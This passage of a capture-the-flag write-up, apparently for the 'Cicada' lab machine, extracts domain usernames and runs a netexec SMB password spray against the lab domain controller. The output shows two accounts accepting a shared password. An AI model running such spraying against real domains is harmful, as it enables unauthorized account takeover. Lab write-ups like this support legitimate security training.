 

And we got the users!, let's use `password spray`:

```
cat users | awk '{print $6}' | cut -d'\' -f2
Enterprise
Administrator
Guest
krbtgt
Domain
Domain
Domain
Domain
Domain
Cert
Schema
Enterprise
Group
Read-only
Cloneable
Protected
Key
Enterprise
RAS
Allowed
Denied
CICADA-DC$
DnsAdmins
DnsUpdateProxy
Groups
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
Dev
emily.oscars

```


Doing `password spray` using `netexec`:

```
 netexec smb 10.10.11.35 -u users -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success                                             
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)                                                                                                                                           
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\david.orelious:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Dev:Cicada$M6Corpb*@Lp#nZp!8 (Guest)
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\emily.oscars:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
```
